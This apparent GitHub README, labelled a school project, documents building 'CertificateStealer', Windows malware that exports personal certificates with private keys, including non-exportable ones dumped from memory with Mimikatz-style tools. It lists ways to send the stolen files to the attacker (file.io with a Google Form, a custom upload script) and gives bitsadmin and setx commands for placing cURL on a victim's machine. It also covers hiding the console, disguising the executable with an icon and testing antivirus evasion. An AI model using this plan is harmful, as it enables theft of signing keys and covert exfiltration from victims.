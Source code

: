 # CertificateStealer
This is school Project - learning purpose only !


# <img src="./doc/SnakeBite.png" width="600" alt="SnakeBite">


TIMELINE:
------
The sooner the better ! <br>
I expect a lot of glitches and errors in the process <br>

TO DO:
------
- Cut audio record of project specifications to just this project.      ✅
- Make UML diagrams of program (UseCase diagram, Class diagram).        ❌
- Do research about certificates (storing, extracting, types,...).      ✅
- Make first testing version of program extracting certificates.        ✅
- Debug the first version.                                              ✅
- Rebuild program, upgrade version.                                     ✅
- Add transfering to (google disk, email, server, ....)                 ✅
- Checking/Installing cURL to computer                                  ✅
- Hide console (or show fake information)                               ✅
- Hide code (deobfuscate code).                                         ❌
- Try detecting with different antiviruses.                             ❌ - in progress
- Wrap the code to some application (make it background process).       ❌
- Final tests.                                                          ✅
- .....


Rewriten audio :
------
- certificates in operating systems (certmgr) - target on Personal certificates
- create malware which exports certificate WITH PRIVATE KEY ! (automaticaly) it can be circumvent by some techniques

minimal:

- automatic export of Personal certificates with PRIVATE KEYs

expanded:
- transport (send) exported(stolen) certificates to hacker (email, google drive, network,...) - try to HIDE it !
- exported certificates protect with password (easiest, widnows, in exporting phase set password) or some other techniques - to not be used by someone else (encrypt canal which we use to send them)

IMPORTANT experience gained after research:
------
Dont use Python (just Mimikatz is good for this job), it can be used but just for calling powershell functions. So instead of python use POWERSHELL ?

Personal certificates are stored in `dir cert:\currentuser\my` , you can list them and then export with easy powershell script, but certificates must have flag "exportable" otherwise they canot be exported with this method. In the other words certificates marked as NonExportable canot be exported through powershell function `Export-PfxCertificate`, so we have to use another method.

You can also find certificates in `%SystemDrive%\Documents and Settings\All Users\Application Data\Microsoft\Crypto\RSA\MachineKeys` and in registry `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\My\Certificates`, from registry you can export it and then on another computer modify registry to import certificate, but it canot be use to signing. It is possible to repair these imports with poweshell command `certutil -repairstore my <certificate-fingerprint>` - *NOT TESTED*.

Because we want export private keys too, we can use `Mimikatz` for exporting certificates with private keys, but it is detected by antiviruses.

So second option is to dump the private key from memory of running computer by ourself. There is one project on github which already did it (<b>just WIN7 and lower</b>) [github](https://github.com/luipir/ExportNotExportablePrivateKey) + for corectly working we need to get [vcredist_x86_2010.exe](https://www.microsoft.com/en-us/download/details.aspx?id=26999) for compiling `exportrsa/Release/exportrsa.exe`.

+ TESTED, worked + exported certificate is secured with password. - ideal state

❗❗❗

Windows 10 version of Exporting non exportable certificate: [github](https://github.com/iSECPartners/jailbreak/tree/master)

Need to check code and use just what we need + wrap for more functions. ✅

+ TESTED                                                                ✅
+ Rewritten to just needed functions (*trymyown* folder)                ✅

Transfering certificates (options):
------
- Upload on https://www.file.io/ (file gets auto delete after one download)
    - Then copy share link and write it in google forms: https://forms.gle/QSG9oaR2XfSXptkAA
    - And just Send form :) - it should work anonymously without login.
- http://leteckaposta.cz/ (30 days then remove)
    - same as above, link for downloading can be used more times.
- Own domain upload
    - *working* with my own domain and PHP file upload script on it. (need to handle how to get cURL on victims computer to be able to use it....) Win10 and laters should default have it. 

### Download cURL with cmd line:

- `bitsadmin /transfer curlDownloadJob /download /priority high https://curl.se/windows/dl-8.1.1_1/curl-8.1.1_1-win64-mingw.zip C:\Users\user\Download\curl.zip`
- extract to folder in system
- add to PATH `setx /M PATH "%PATH%;C:\curl"` (need admin rights not cleaver, must be run as ADMIN)
- reopen cmd and it can be used :)


## Build .exe program one clik run:

- Need to modify Visual Studio settings.
- Switch to "Release"
- Go to configuration
- Project Properties -> C/C++ -> Code Generation
- Here change "Runtime Library" to "/MT Multi-threaded" for static building (it will include all needed C++ libs in .exe, which will cause running on computer without instaled Visual Studio.)
- Then Folder Release is created, just file .exe is needed (file .pdb is for handing errors like programer/developer, not needed for users.)
- Wrap Release folder and send --> Woala Program is working on other computer.


### Add own icon:
- Used "Resource Hacker".
- Load .exe file.
- In tree select "Icon / Icon Group" and replace it.
- If there is not Icon in tree  structure -> add new Binary, select .ico file, rename *.ico and select it is Icon/ Icon Group.
- Save / or Save as to apply chnages, now the .exe has your icon and code is not corupted.

## Antivirus testing:

- Browsers                              ✅      -> added password to ZIP
- Microsoft Defender                    ❌      -> detected Trojan (try to obfuscate code?)
- ...                                   ❌      -> 
- ...                                   ❌      -> 


# Finall:

- Finall executable application is built in folder `finall` 